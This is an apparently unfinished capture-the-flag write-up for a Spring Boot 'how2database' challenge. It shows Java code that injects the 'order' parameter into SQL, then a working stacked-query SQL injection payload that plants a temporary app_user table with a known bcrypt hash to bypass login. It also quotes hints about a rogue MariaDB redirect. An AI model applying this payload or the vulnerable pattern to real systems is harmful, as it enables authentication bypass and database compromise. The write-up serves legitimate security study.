

# how2database

```bash
Spring Boot: framework to run web servers written in Java
Redis: fast data store in RAM; used alongside databases
jdbc: what Java uses to connect to databases
```

## Triage



```
- AuthInterceptor applies when /playground/** is accessed.
- Submit query with POST /playground/query.
- This will not work unless logged in.
- One source of users is the app_user database.
- PostgreSQL → lesson, app_user tables.
- MariaDB → country, extdb tables.
```

## Vuln

`order` parameter is vulnerable -> user input passed as SQL code directly!

```java
@GetMapping("/lessons")
public List<Map<String, Object>> list(
    @RequestParam(name = "q", required = false) String q,
    @RequestParam(name = "order", required = false) String orderBy) {

    var query = dsl.select(ID, SLUG, TITLE).from(LESSON).where(DSL.noCondition());

    if (q != null && !q.isBlank()) {
        String pattern = "%" + q + "%";
        query = query.and(TITLE.likeIgnoreCase(pattern).or(BODY.likeIgnoreCase(pattern)));
    }
    
    return query.orderBy(DSL.field(orderBy == null ? "id" : orderBy)).fetchMaps();
}
```

## Exploit

### Logging in

These are the `postgres` permissions. We technically only have `SELECT` (read-only) permissions, which means we can't insert into the existing `app_user` table:

```java
CREATE ROLE readonly WITH LOGIN PASSWORD 'readonly';
GRANT CONNECT ON DATABASE how2db TO readonly;
GRANT USAGE   ON SCHEMA public   TO readonly;
GRANT SELECT  ON ALL TABLES IN SCHEMA public TO readonly; // this
ALTER DEFAULT PRIVILEGES IN SCHEMA public GRANT SELECT ON TABLES TO readonly;
```

However, we can still create a temporary shadow `app_user` table:

```bash
docker compose exec postgres psql -U readonly -d how2db
```
```sql
id; 

CREATE TEMP TABLE app_user (
    id            BIGINT GENERATED BY DEFAULT AS IDENTITY PRIMARY KEY,
    username      VARCHAR(64)  NOT NULL UNIQUE,
    password_hash VARCHAR(100) NOT NULL
);

INSERT INTO app_user (username, password_hash) VALUES ('vincent', '$2b$12$/Agye3huI5ZtqgrcvnW68ODI/O1JhlncSJSCeHOPsmJjHm.Ts9cGO');
```

Now to craft this as a payload for the `order` param via [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)&input=aHR0cDovL2xvY2FsaG9zdDo5MDkwL2xlc3NvbnM/b3JkZXI9aWQ7IA0KDQpDUkVBVEUgVEVNUCBUQUJMRSBhcHBfdXNlciAoDQogICAgaWQgICAgICAgICAgICBCSUdJTlQgR0VORVJBVEVEIEJZIERFRkFVTFQgQVMgSURFTlRJVFkgUFJJTUFSWSBLRVksDQogICAgdXNlcm5hbWUgICAgICBWQVJDSEFSKDY0KSAgTk9UIE5VTEwgVU5JUVVFLA0KICAgIHBhc3N3b3JkX2hhc2ggVkFSQ0hBUigxMDApIE5PVCBOVUxMDQopOw0KDQpJTlNFUlQgSU5UTyBhcHBfdXNlciAodXNlcm5hbWUsIHBhc3N3b3JkX2hhc2gpIFZBTFVFUyAoJ3ZpbmNlbnQnLCAnJDJiJDEyJC9BZ3llM2h1STVadHFncmN2blc2OE9ESS9PMUpobG5jU0pTQ2VIT1BzbUpqSG0uVHM5Y0dPJyk7&ieol=CRLF)

```python
import bcrypt
salt = bcrypt.gensalt()
_hash = bcrypt.hashpw(b'password', salt).decode()
print(_hash)  # $2b$12$/Agye3huI5ZtqgrcvnW68ODI/O1JhlncSJSCeHOPsmJjHm.Ts9cGO
```
```
http://localhost:9090/lessons?order=id;%20%0D%0A%0D%0ACREATE%20TEMP%20TABLE%20app%5Fuser%20(%0D%0A%20%20%20%20id%20%20%20%20%20%20%20%20%20%20%20%20BIGINT%20GENERATED%20BY%20DEFAULT%20AS%20IDENTITY%20PRIMARY%20KEY,%0D%0A%20%20%20%20username%20%20%20%20%20%20VARCHAR(64)%20%20NOT%20NULL%20UNIQUE,%0D%0A%20%20%20%20password%5Fhash%20VARCHAR(100)%20NOT%20NULL%0D%0A);%0D%0A%0D%0AINSERT%20INTO%20app%5Fuser%20(username,%20password%5Fhash)%20VALUES%20('vincent',%20'$2b$12$/Agye3huI5ZtqgrcvnW68ODI/O1JhlncSJSCeHOPsmJjHm%2ETs9cGO');
```

### Get Flag

We need to execute `/readflag`, probably related to extdb. Idk what else, here are the hints:

```
for the first part, you can either use temp tables (allowed on public schema in postgres)
or set standard_conforming_strings to off and then do SQLi with backslashes

the second part uses mariadb's redirect_url to make the client connect to a rogue mariadb you can host
```


- INCOMPLETE -